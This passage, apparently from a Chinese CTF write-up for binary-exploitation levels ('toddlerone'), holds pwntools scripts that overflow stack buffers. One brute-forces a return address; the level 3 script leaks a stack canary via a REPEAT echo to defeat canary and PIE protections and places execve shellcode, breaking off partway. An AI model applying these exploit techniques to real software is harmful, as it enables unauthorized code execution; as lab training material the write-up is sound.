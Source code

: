 ```python
    rbp = 8
    address_ = p64(base_address)

    payload = raw_file + (buffer_size + padding_size + rbp - file_bytes) * b'A' + address_
    p.recvuntil("Payload size: ")
    p.sendline("160")
    p.send(payload)
    response = p.recvall().decode()
    if "pwn" in response:
        print(address_)
        print(response)
        p.interactive()
        exit()
    base_address += 0x10
```

## level 3

这个题开启了 `canary` 和 `PIE`保护。只能通过重复的缓冲区溢出，借助 `puts`的回显，获取canary的值和真正的栈空间的值。

首先challenge函数的栈空间是 `0x80`，在调用的过程中会 `push return_address` 和 `push rbp`所以这里又多了 `0x10`字节。我们可以通过 `REPEAT`重复调用 `challenge`获取 `canary_value`。再次使用 `REPEAT`，重复调用 `challenge`获取main函数调用 `challenge`时，challenge函数的栈基址。这样，我们在减去两个 `0x80+0x10`，就能获得第三次调用challenge函数时的栈基址。再减去 `0x40`就是要覆盖返回地址的栈空间的地址。shellcode就放在这里。

因为栈空间有限，所以我是用execve函数调用外部的c程序来打印flag的值。这样能节约shellcode的空间。

```bash

challenge_3:
    challenge_2函数的栈基址
    ret返回地址

chanllenge_2:
    challenge_1函数的栈基址------->第二次重复调用challenge函数就是为了获取这个，然后减去2*0x90就是challenge_3函数的栈基址
    ret返回地址

chanllenge_1:
    mian函数的栈基址
    ret返回地址

```

```python
from pwn import *

elf = ELF("/challenge/toddlerone_level3.0")

p = process("/challenge/toddlerone_level3.0")
p.recvuntil("Payload size: ")

init_payload_size = 57
p.sendline(f"{init_payload_size}")
init_payload = b'REPEAT' + b'A' * (init_payload_size - 6)
p.send(init_payload)
p.recvuntil("You said: ")
response = p.recvline().strip()
canary_value = response[57:64].rjust(8, b'\x00')
canary_value = p64(u64(canary_value))
print(f"canary_value: {canary_value}")


init_payload_size = 57
p.recvuntil("Payload size: ")
p.sendline(f"{init_payload_size}")

```